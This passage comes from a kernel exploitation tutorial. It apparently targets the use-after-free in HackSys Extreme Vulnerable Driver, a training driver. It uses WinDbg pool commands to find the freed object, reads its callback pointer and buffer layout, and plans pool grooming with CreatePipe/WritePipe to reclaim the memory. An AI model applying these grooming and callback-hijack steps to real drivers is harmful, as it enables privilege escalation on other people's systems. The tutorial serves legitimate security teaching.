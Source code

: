 We saw in the allocate function earlier that it allocates the object in the non-paged pool using `ExAllocatePoolWithTag`. The tag it uses (here "Hack") is a way to identify objects in that pool. We can search for all objects tagged this way in the debugger:

```
0: kd> !poolused 2 Hack
...
               NonPaged                  Paged
 Tag     Allocs         Used     Allocs         Used

 Hack         1          112          0            0	UNKNOWN pooltag 'Hack', please update pooltag.txt

TOTAL         1          112          0            0
```

This shows that currently there is exactly one allocation with that tag (the one we just created ourselves). Lets now find the address of that object:

```
0: kd> !poolfind Hack -nonpaged
ffffe60269102050 : tag Hack, size      0x60, Nonpaged pool
```

This works but can take a lot of time. There is an alternative way to let us check the allocations while they happen with `ed nt!PoolHitTag 'Hack'`. But for now, we are going to stick with the address we just got with `poolfind`. It shows us that the size of the object is 0x60 (+0x10 bytes header), which means that we later need to find some native windows kernel object that has the same size.

```
0: kd> dq ffffe60269102050 L0xC
ffffe602`69102050  fffff800`31117c58 41414141`41414141
ffffe602`69102060  41414141`41414141 41414141`41414141
ffffe602`69102070  41414141`41414141 41414141`41414141
ffffe602`69102080  41414141`41414141 41414141`41414141
ffffe602`69102090  41414141`41414141 41414141`41414141
ffffe602`691020a0  41414141`41414141 00000000`00414141
```

We can see that this object is mostly filled with "A"s. Only the first value is a function pointer and this is exactly the callback we identified in the introduction section. If we compare that with the object we can see in the source it matches our assumption:

```cpp
typedef struct _USE_AFTER_FREE_NON_PAGED_POOL {
    FunctionPointer Callback;
    CHAR Buffer[0x54];
} USE_AFTER_FREE_NON_PAGED_POOL, *PUSE_AFTER_FREE_NON_PAGED_POOL;
```

You might have noticed that the size does not exactly lead to 0x60 when looking at this object (0x54 + 8 = 0x5C). The remaining 4 bytes I assume are padding (we can see they are zero). Now that we know the size we are looking for another kernel object that is suitable for us.

There is some excellent research by Alex Ionescu on [Kernel Fengshui](https://www.alex-ionescu.com/?p=231) which dives into this topic and shows that using `CreatePipe` and `WritePipe` allows allocating an almost arbitrary size object (> 0x48) in the non-paged pool. Let’s create such an object and try to find it in memory so we can confirm it has indeed the correct size.
